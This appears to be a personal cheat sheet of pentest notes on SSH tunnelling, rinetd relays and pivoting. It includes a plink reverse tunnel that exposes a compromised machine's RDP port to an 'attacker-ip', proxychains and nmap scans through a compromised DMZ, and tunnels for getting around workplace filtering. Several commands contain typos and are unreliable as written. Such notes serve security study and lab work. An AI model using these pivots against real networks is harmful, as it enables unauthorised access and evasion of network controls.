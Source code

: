 > https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/

# Local Port Forwarding
```
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

From work:
```
ssh -L 9001:banned-site.com:80 home
curl http://localhost:9001
```

# Remote Port Forwarding
From work:
```
ssh -R 9001:intra-ssh-server:22 home
```
Server will bind port 9001 on ‘home’ machine to listen for incoming requests which would subsequently be routed through the created SSH channel visiting http://localhost:9001 in ‘home’ will fotward user to intra:80

From home:
```
ssh -p 9001 localhost
```

# Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

From work:
```
ssh -D 9001 home
```

# rinetd

When outbound only 80 / 443 use port forwarding
```
nano /etc/rinetd.conf
ip1 80 ip2 3389
```
```
bindaddress bindport connectaddress connectport
```  

(ip1:80 will proxy for ip2:3389)

# Creating reverse SSH client to tunnel-out remote desktop port

Creating Tunnel


FROM remote non routable machine
```
pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
```
> localhost 3389 to attacker ip 3389

FROM attacker's machine
```
rdesktop localhost:3390
```

# SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)

Create local SOCS4 proxy:

From attacker's machine (compromised DMZ)
```
ssh -D 8080 root@DMZ-IP

netstat -antp | grep 8080

/etc/proxychains.conf
socks4 127.0.0.1 8080
proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

proxychains rdesktop rdp-ip-in-non-routable-range
```

# Tools
- XFLTReaT tunnelling framework: https://github.com/earthquake/XFLTReaT
```
TCP
UDP
ICMP
SOCKS v4, 4a, 5
HTTP CONNECT
SCTP (by Darren Martyn @info_dox)
WebSocket
DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
RDP (Windows only)
```
